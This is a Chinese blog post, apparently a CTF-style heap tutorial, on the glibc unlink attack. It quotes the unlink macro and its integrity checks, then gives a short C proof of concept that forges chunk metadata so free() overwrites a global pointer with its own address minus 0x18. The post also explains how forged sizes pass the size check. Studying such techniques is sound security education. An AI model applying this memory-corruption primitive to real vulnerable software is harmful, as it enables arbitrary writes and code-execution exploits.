 ```yaml
---
layout: post
title: 'unlink攻击敏感指针'
subtitle: 'unlink攻击敏感指针'
date: 2021-04-20
categories: 技术
tags: heap_related
---
```


### unlink源码

unlink本质：从双链表中取出元素。

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}

```

主要检查

- 堆块大小一致检查

    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);


- 双链表完整性检查

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);\
```

FD->bk==P

BK->fd==P

保证了双链表的双向连接



### 攻击代码示例

free机制触发unlink改写指针内容

攻击效果:一个指针的内容变成指针地址-0x18，同时造成了堆块的重叠。

ptr = ptr_addr - 0x18

```c
#include <stdio.h>
#include <malloc.h>
#include <unistd.h>
#include <string.h>
long long list[30]={0};
int main()
{
    char *p = malloc(0x80);
    char *q = malloc(0x80);
    char *r = malloc(0x80);
    list[0] = p;

    *(long *) p = 0;
    *(long *) (p+8) = 0x81;
    *(long *) (p+0x10) = list - 0x3;
    *(long *) (p+0x18) = list - 0x2;
    *(long *) (q-0x10) = 0x80;
    *(long *) (q-8) = 0x90;
//=====================line==================
    free(q);
    return 0;
}
```

free(q)前：

![](/picture/heap_related/unlink攻击敏感指针/1.png)

![](/picture/heap_related/unlink攻击敏感指针/2.png)



free(q)触发unlink后

![](/picture/heap_related/unlink攻击敏感指针/3.png)

可以看到list[0]已经被修改了。



#### ps：

由于堆块检查

    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);

只需要满足

(chunksize(P) == (next_chunk(P))->prev_size就行，size也可以这样伪造

![](/picture/heap_related/unlink攻击敏感指针/4.png)